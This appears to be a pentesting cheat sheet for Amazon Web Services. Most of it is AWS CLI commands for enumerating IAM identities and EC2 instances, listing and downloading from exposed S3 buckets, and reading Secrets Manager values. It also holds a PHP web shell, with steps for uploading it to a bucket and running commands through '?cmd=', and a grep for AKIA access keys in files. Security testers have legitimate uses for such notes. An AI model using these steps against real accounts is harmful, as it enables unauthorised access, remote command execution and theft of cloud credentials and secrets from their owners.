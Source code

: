 ```yaml
---
title: Amazon Web Services (AWS) Pentesting
desc: It provides on-demand cloud computing platforms and APIs to individuals, companies, and governments, on a metered pay-as-you-go basis. 
tags: [Amazon, AWS, Cloud, S3, Web]
alts: []
render_with_liquid: false
---
```


## Amazon Resource Names (ARNs)

```sh
# Format
arn:aws:<service>:<region>:<account_id>:<resource_type>/<resource_name>
```

<br />

## Identify and Access Management (IAM)

```sh
# Add credentials
# This will add entries to .aws/config or .aws/credentials in user's home directory.
# <profile-name> is arbitrary.
aws configure --profile <profile-name>

# List credentials
aws configure list --profile <profile-name>



# Find the account id belonging to an access key (access key starts with "AKIA")
aws sts get-access-key-info --access-key-id AKIAQ31B...

# Determin the username the access key you're using belogns to
aws sts get-caller-identity --profile <profile-name>

# List all EC2 instances running in an account
aws ec2 describe-instances --output text --profile <profile-name>

# List all EC2 instances running in an account in a dirrerent region
aws ec2 describe-instances --output text --region us-east-1 --profile <profile-name>
```

<br />

## Amazon S3

A public cloud storage resource available in Amazon Web Services (AWS) Simple Storage Service (S3), an object storage offering.

1. **S3 Bucket URLs Commonly Used**

    If you find images in target website, open the images new tab and check the URLs if they're stored in Amazon S3.  
    The following URLs templates are often used.

    ```
    http://example-assets.s3.amazonaws.com
    http://s3.amazonaws.com/example-assets/

    http://example-www.s3.amazonaws.com
    http://s3.amazonaws.com/example-www/

    http://example-public.s3.amazonaws.com
    http://s3.amazonaws.com/example-public/

    http://example-private.s3.amazonaws.com
    http://s3.amazonaws.com/example-private/

    http://example-bucket-zero.s3.amazonaws.com
    http://s3.amazonaws.com/example-bucket-zero/

    http://example-bucket-one.s3.amazonaws.com
    http://s3.amazonaws.com/example-bucket-one/

    http://example-bucket-two.s3.amazonaws.com
    http://s3.amazonaws.com/example-bucket-two/
    ```

2. **XML Content Discovery**

    Accessing the S3 Bucket URL, if the contents of XML,

    ```xml

    ...
    <Contents>
    <Key>creds.txt</Key>
    ...

    ```

    Retrieve the content by accessing to URL like https://vulnerable-assets.s3.amazonaws.com/creds.txt.

3. **AWS CLI**

    First off, you may need to configure aws.

    ```sh
    aws configure
    ```

    ```sh
    # http://<bucket-name>.s3.amazonaws.com

    # List contents of a bucket
    aws s3 ls s3://<bucket-name>/
    aws s3 ls s3://<bucket-name>/ --no-sign-request
    aws s3 ls s3://example.com

    # Specify the endpoint
    aws s3 --endpoint=http://example.com ls s3://example.com

    # Download files from s3
    aws s3 cp s3://<bucket-name>/example.xml .

    # Upload files to s3
    aws s3 cp ./example.txt s3://<bucket-name>

    # --------------------------------------------------------------

    # List all S3 buckets in the AWS account you've added.
    aws s3 ls --profile PROFILENAME
    ```

4. **Web Shell/Reverse Shell with CLI**

    1. **Prepare Web Shell**

        ```sh
        echo '<?php system($_GET["cmd"]); ?>' > shell.php
        ```

    2. **Upload the Web Shell**

        ```sh
        aws s3 cp ./shell.php s3://example.com
        # or
        aws s3 --endpoint=http://s3.example.com cp ./shell.php s3://example.com
        ```

        Check if uploaded

        ```sh
        aws s3 ls s3://example.com
        # or
        aws s3 --endpoint=http://s3.example.com ls s3://example.com
        ```

    3. **Execute Commands via Request**

        Send request to **http://example.com/shell.php?cmd=whoami** in browser or using **curl**.

<br />

## Secrets Manager

```sh
# List secrets
aws secretsmanager list-secrets --profile <profile-name>

# Get secret value
# "secret-id" is the Name of the SecretList when run 'list-secrets'.
aws secretsmanager get-secret-value --secret-id <secret-id> --profile <profile-name>


# Help
aws secretsmanager help
```

<br />

## Get Access Keys From Files

```sh
# Access Key ID starts with "AKIA"
grep -e AKIA ./*
```